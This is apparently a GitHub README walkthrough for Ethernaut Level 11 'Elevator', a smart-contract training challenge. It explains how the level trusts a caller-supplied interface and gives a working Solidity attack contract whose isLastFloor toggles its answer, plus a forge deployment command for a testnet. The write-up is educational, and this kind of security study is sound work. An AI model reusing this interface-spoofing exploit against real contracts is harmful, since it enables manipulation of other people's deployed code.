

<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif


## The hack

The Elevator is a level that is supposed to elevate (!) our knowledge about smart contract interface. An interface defines function signatures, but not their logic. This is a way to interact with other contracts without having to know the implementation details.

However, in this case, we can create our Building instance and use it to define our version of the `isLastFloor()` function.

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

In the `goTo` function, `isLastFloor` is called twice. The first time with any value (this will set the last floor), and the second time with the floor we want to go to. We can use this to our advantage by crafting a `isLastFloor()` that will return `false` the first time and `true` the second time.

This will allow us to reach the top of the building.

## Solution

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract StairwayToHeaven {
    bool private toogle;
    IElevator private elevator;

    constructor(address _elevator) {
        elevator = IElevator(_elevator);
    }

    // Implement the isLastFloor function to return false the first time (set
    // the floor to any uint value) and true the second time to go to the top
    function isLastFloor(uint) public returns (bool) {
        toogle = !toogle;
        return toogle;
    }

    // Pick your number :)
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }
}
```

Then, you can use forge scripts to deploy the contract and call the `attack` function with the floor you want to go to.

```bash
forge script script/11_Elevator.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Interfaces are a way to interact with other contracts without having to know the implementation details...
- ... so never trust them blindly!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
